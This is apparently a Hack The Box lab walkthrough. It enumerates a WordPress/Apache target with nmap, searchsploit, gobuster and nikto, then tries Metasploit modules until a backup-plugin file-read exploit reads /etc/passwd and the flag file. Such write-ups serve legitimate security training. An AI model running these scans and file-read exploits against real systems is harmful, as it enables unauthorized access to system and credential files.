# HTB - Public exploit

The target IP will be `94.237.58.137:57869`



Use nmap to search for the service running.

```
nmap -p0- -v -A -T4 <Target_IP>
```




More aggressive option:

```bash
nmap -sV -sC -A -p 57869 94.237.58.137
```

- `-A`: Enables OS detection, version detection, script scanning, and traceroute

- The output will show you:
Whether the port is open, closed, or filtered
- The service name (e.g., http, ssh, ftp)
- The service version if detectable
- Additional information from scripts if using -sC

# Public Exploit


So, I found Apache httpd 2.4.41 running on Ubuntu. Also it's a Wordpress website.

```bash
searchsploit apache 2.4.41
```


Can also try

```bash
searchsploit httpd 2.4.41
```



```bash
searchsploit apache ubuntu
```



```
Title: Remote DoS against OpenBSD http server (up to 6.0)
Advisory URL: https://pierrekim.github.io/advisories/CVE-2017-5850-openbsd.txt
Blog URL: https://pierrekim.github.io/blog/2017-02-07-openbsd-httpd-CVE-2017-5850.html
Date published: 2017-02-07
Vendors contacted: OpenBSD
Release mode: Released
CVE: CVE-2017-5850
```



```bash
gobuster dir -u http://94.237.58.137:57869 -w /usr/share/wordlists/dirb/common.txt
```

```bash
nikto -h http://94.237.58.137:57869
```

# Metasploit

```bash
msfconsole
search apache 2.4
```

## OR

```bash
search CVE-2017-5850
```

## Look for mod_cgi Exploits

Since Apache 2.4.41 on Ubuntu might have vulnerable modules, search for:

```bash
search apache mod_cgi
search apache cgi
```

# Attempt I



```bash
use exploit/multi/http/apache_normalize_path_rce
```



But I failed.

# Attempt II

```bash
set RHOST 94.237.58.137
set RPORT 57869
```

### Set LHOST

```
ip a
```



Still failed, at least I know CVE-2021-42013 is not for this target.




Tried another wordpress exploit, but the website isn't exploitable.



# Attempt III

Search for wordpress backup plugin


Found one exploit option




The module worked and successfully read /etc/passwd!

Now let's find the flag.

# Flag

To read the flag, need to change the FILEPATH from `etc/passwd` to `/flag.txt`

```
# Try root directory
set FILEPATH /flag.txt
run
```



Read the files

```
/home/htb-ac-2251440/.msf4/loot/20251126153253_default_94.237.58.137_simplebackup.tra_099238.txt

/home/htb-ac-2251440/.msf4/loot/20251126153457_default_94.237.58.137_simplebackup.tra_461350.txt
```

If it doesn't work for you try the following paths:

```

# Try home directory
set FILEPATH /home/flag.txt
run

# Try root's home
set FILEPATH /root/flag.txt
run

# Try var/www (web root)
set FILEPATH /var/www/flag.txt
run

# Try the web directory
set FILEPATH /var/www/html/flag.txt
run
```

---

# Further Reading

- <https://www.offsec.com/metasploit-unleashed/msfconsole-commands/>
